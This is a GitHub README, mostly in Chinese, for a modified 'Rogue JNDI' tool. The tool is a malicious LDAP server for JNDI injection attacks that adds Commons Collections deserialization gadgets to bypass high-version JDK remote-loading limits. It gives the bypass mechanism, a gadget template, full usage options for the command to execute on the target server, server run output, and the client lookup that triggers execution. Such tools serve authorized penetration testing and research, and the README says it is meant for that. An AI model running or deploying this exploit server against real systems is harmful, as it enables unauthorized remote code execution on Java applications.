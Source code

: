 ## Rogue JNDI 1.2

### Description

原工具库：[veracode-research/rogue-jndi: A malicious LDAP server for JNDI injection attacks (github.com)](https://github.com/veracode-research/rogue-jndi)

此版本在原工具上增加自定义gadget，利用LDAP返回序列化数据触发客户端代码执行 绕过高版本JDK远程加载限制

### Bypass 

利用LDAP返回序列化数据，触发本地Gadget，LDAP支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化。

`com.sun.jndi.ldap.Obj#decodeObject`

```JAVA
if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
    ClassLoader var3 = helper.getURLClassLoader(var2);
    return deserializeObject((byte[])((byte[])var1.get()), var3);
}
```

更多绕过方式请参考：https://paper.seebug.org/942

### Supported payloads

目前利用LDAP返回序列化数据，触发本地Gadget的绕过方式支持的Gadget

* CommonsCollections2
* CommonsCollections4
* CommonsCollections5
* CommonsCollections6
* CommonsCollections7
* ...

可自定义添加，在`gadgets`包中，添加模板如下

```java
@SuppressWarnings({ "rawtypes", "unchecked" })
public class GadgetName implements ObjectPayload<T>{

    @Override
    public T getObject(String command) throws Exception {
   
        return T;
    }
}
```

其他`payload`请参考原工具库

### Usage

```
> java -jar RogueJndi-1.2.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.2.jar [options]
  Options:
    -c, --command  Command to execute on the target server (default: calc.exe)
    -n, --hostname Local HTTP server hostname (required for remote 
                   classloading and websphere payloads) (default: 127.0.0.1)
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8000)
    --wsdl         [websphere1 payload option] WSDL file with XXE payload 
                   (default: /list.wsdl)
    --localjar     [websphere2 payload option] Local jar file to load (this 
                   file should be located on the remote server) (default: 
                   ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    -g, --gadget   Use the client gadget to bypass the high-version JDK , 
                   choose the gadget to use (default: CommonsCollections6)
    -h, --help     Show this help
```

### Example

绕过高版本JDK限制：利用LDAP返回序列化数据，触发本地Gadget，如下Gadget的是`CommonsCollections6`

```
>java -jar RogueJndi-1.2.jar  -c "calc.exe" -n "127.0.0.1" -g "CommonsCollections6"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://127.0.0.1:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://127.0.0.1:1389/o=ldapref to artsploit.controllers.LDAPRefServer
Mapping ldap://127.0.0.1:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://127.0.0.1:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://127.0.0.1:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://127.0.0.1:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://127.0.0.1:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://127.0.0.1:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://127.0.0.1:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
```

客户端触发代码：

```
new InitialContext().lookup("ldap://127.0.0.1:1389/o=ldapref");
```

### Building

Java v1.7+ and Maven v3+ required

```
mvn package 
```

### Disclamer

 此工具仅用于企业安全人员自查验证自身企业资产的安全风险，或有合法授权的安全测试，请勿用于其他用途，如有，后果自负。
